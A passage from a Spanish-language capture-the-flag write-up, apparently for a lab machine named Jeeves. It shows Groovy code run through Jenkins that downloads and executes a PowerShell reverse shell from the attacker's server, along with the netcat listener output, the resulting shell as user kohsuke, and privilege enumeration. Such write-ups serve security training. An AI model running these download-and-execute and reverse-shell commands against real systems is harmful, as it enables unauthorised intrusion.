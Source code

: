 Y agregamos al final del archivo la siguiente linea

```bash
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.17 -Port 443
```

Nos compartimos un servidor HTTP con python, nos ponemos en escucha a través del puerto 443 y nos entablamos una reverse shell:

```groovy
cmd = "C:\\Windows\\SysNative\\WindowsPowershell\\v1.0\\powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.14.17/PS.ps1')"
cmd.execute().text
```

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.63 - - [10/Oct/2021 13:54:25] "GET /PS.ps1 HTTP/1.1" 200 -
```

```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.63] 49678
Windows PowerShell running as user kohsuke on JEEVES
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

whoami
jeeves\kohsuke
PS C:\Users\Administrator\.jenkins>
```

Ya nos encontramos dentro de la máquina como el usuario **kohsuke** y podemos visualizar la flag (user.txt).  Como utilizamos la ruta nativa de powershell, deberíamos tenermos un proceso igual que la architectura del sistema; esto lo podemos probar con los siguientes comandos:

```bash
PS C:\Users\Administrator\.jenkins> [Environment]::Is64BitOperatingSystem
True
PS C:\Users\Administrator\.jenkins> [Environment]::Is64BitProcess
True
PS C:\Users\Administrator\.jenkins>
```

En este punto nos queda escalar privilegios, así que vamos a enumerar un poco el sistema:

```bash
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
PS C:\Users\Administrator\.jenkins>
```
